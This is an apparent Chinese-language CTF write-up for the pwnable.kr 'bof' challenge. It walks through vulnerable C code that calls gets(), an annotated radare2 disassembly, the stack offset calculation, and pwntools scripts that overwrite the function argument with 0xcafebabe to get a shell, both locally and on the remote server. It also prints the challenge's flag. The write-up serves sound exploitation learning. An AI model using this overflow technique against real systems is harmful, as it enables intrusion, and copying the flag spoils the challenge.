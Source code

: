 源程序如下

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}

```

就是 `overflow` 这个数组会发生溢出, 使用 r2 查看它的反汇编代码如下

```
[0x0000062c]> pdf @ sym.main
            ;-- main:
┌ (fcn) sym.main 28
│   sym.main (int argc, char **argv, char **envp);
│           0x0000068a      55             push ebp
│           0x0000068b      89e5           mov ebp, esp
│           0x0000068d      83e4f0         and esp, 0xfffffff0
│           0x00000690      83ec10         sub esp, 0x10

=> main 函数中调用 func 时通过 esp 传递参数 0xdeadbeef:

│           0x00000693      c70424efbead.  mov dword [esp], 0xdeadbeef ; [0xdeadbeef:4]=-1
│           0x0000069a      e88dffffff     call sym.func
│           0x0000069f      b800000000     mov eax, 0
│           0x000006a4      c9             leave
└           0x000006a5      c3             ret

[0x0000062c]> pdf
┌ (fcn) sym.func 94
│   sym.func (unsigned int arg_8h);
│           ; var int local_2ch @ ebp-0x2c
│           ; var int local_ch @ ebp-0xc
│           ; arg unsigned int arg_8h @ ebp+0x8
│           ; XREFS: CALL 0x00000644  CALL 0x0000064f  CALL 0x00000664  CALL 0x00000672  CALL 0x00000683  CALL 0x0000069a

=> 进入 func 函数体,先是在栈上开辟 0x48 的空间大小, 然后 gs:[0x14] 获取 canary, 放入 local_ch 中:

│           0x0000062c      55             push ebp
│           0x0000062d      89e5           mov ebp, esp
│           0x0000062f      83ec48         sub esp, 0x48               ; 'H'
│           0x00000632      65a114000000   mov eax, dword gs:[0x14]    ; [0x14:4]=1
│           0x00000638      8945f4         mov dword [local_ch], eax
│           0x0000063b      31c0           xor eax, eax

│           0x0000063d      c704248c0700.  mov dword [esp], str.overflow_me_: ; [0x78c:4]=0x7265766f ; "overflow me : "; RELOC 32
│           0x00000644      e8fcffffff     call 0x645                  ; RELOC 32 puts

=> esp 中放入存放用户数据的数组地址, gets 执行后, 将会填充数组, 这里就是发生溢出的地方

│           0x00000649      8d45d4         lea eax, [local_2ch]
│           0x0000064c      890424         mov dword [esp], eax
│           0x0000064f      e8fcffffff     call 0x650                  ; RELOC 32 gets
│           0x00000654      817d08bebafe.  cmp dword [arg_8h], 0xcafebabe ; [0xcafebabe:4]=-1

│       ┌─< 0x0000065b      750e           jne 0x66b
│       │   0x0000065d      c704249b0700.  mov dword [esp], str.bin_sh ; [0x79b:4]=0x6e69622f ; "/bin/sh"; RELOC 32
│       │   0x00000664      e8fcffffff     call 0x665                  ; RELOC 32 system
│      ┌──< 0x00000669      eb0c           jmp 0x677
│      ││   ; CODE XREF from sym.func (0x65b)
│      │└─> 0x0000066b      c70424a30700.  mov dword [esp], str.Nah..  ; [0x7a3:4]=0x2e68614e ; "Nah.."; RELOC 32
│      │    0x00000672      e8fcffffff     call 0x673                  ; RELOC 32 puts
│      │    ; CODE XREF from sym.func (0x669)
│      └──> 0x00000677      8b45f4         mov eax, dword [local_ch]
│           0x0000067a      653305140000.  xor eax, dword gs:[0x14]
│       ┌─< 0x00000681      7405           je 0x688
│       │   0x00000683      e8fcffffff     call 0x684                  ; RELOC 32 __stack_chk_fail
│       │   ; CODE XREF from sym.func (0x681)
│       └─> 0x00000688      c9             leave
└           0x00000689      c3             ret
```

在执行到 gets 函数时, 栈顶存放的是数组 overflow 的首地址, 其值 `ebp - 0x2c`,
因此 `*(char *)(ebp - 0x2c)` 就是我们的第一个字符, 依次的 `ebp - 0x2c + 0x4` 处就是第 2 个字符,
而我们要溢出覆盖到 main 传递给 func 的参数, 该参数值位于 ebp + 0x8 处,
因此从 overflow 数组首地址, 我们要填充 0x2c + 0x8 个字节大小, 才能抵达 main 传递给 func 的
参数处, 然后再覆盖四个字节, 这最后四个字节, 我们需要控制为 0xcafebabe 即可完成攻击.

对于多字节数据, 比如一个四字节整形, 假设其内存地址为 0x00400000,
那么 CPU 总是向高地址处读取四字节, 然后根据机器端序来形成十六进制的数据,
如果是大端序, 则 MSB 位于最低地址处, 如果是小段序, 则 LSB 位于最低地址处.

由于数组 overflow 从低地址到高地址依次存放收到的数据, 因此溢出后, 如果要控制最后四个字节
为 0xcafebabe, 那么在小段序上就要求从低地址到高地址依次为 0xbe 0xba 0xfe 0xca.

所以我们的 payload 就是 `(0x2C + 0x8 ) * 'A' + '\xbe\xba\xfe\xca'`.
用 python3 结合 pwntools 来写就是

```
#! /usr/bin/env python3
# -*- coding:utf-8 -*-

from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

io = process('./bof')
gdb.attach(io)
print(io.recvline())
pad = b'A' * (0x2c + 0x8)
input("Send palyload?")
#io.send(pad + b'\x90\x90\x90\x90')
io.sendline(pad + p32(0xcafebabe))
io.interactive()

```

因为我是第一次接触 pwntools, 记录一下如何结合 gdb 进行调试:

上面使用 context 来设置启动 gdb 的终端, 我设置为了 tmux, 新开一个垂直划分的窗口,
在 gdb.attach 执行后, 就会在 tmux 的新窗口中启动一个已经载入调试程序的会话,
然后 input 用于暂停脚本执行, 此时我们可以进入 gdb 进行调试, 设置断点等操作,
等完成操作后, 在 gdb 中按下 `c`, 回到 pwntools 脚本执行窗口, 按下回车,
即可继续执行 pwntools 脚本, 比如这里就是发送 payload 给调试程序.

第二个问题是 python3 中, '\x90' 并不是一个字节, 而是一个字符串,
如果想表示一个字节, 必须是 b'\x90', 否则你发送到程序中的字节会被 utf-8 编码为  `\x2c\x90`,
这导致错误的 payload, 这和 python2 不一样, 务必注意.

当在本地调试完之后, 就可以远程连接了

```
#! /usr/bin/env python3
# -*- coding:utf-8 -*-

from pwn import *

io = remote('pwnable.kr', 9000)
pad = b'A' * (0x2c + 0x8)
io.sendline(pad + p32(0xcafebabe))
io.interactive()
```

结果如下

```
$ python3 exp.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
log2
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```
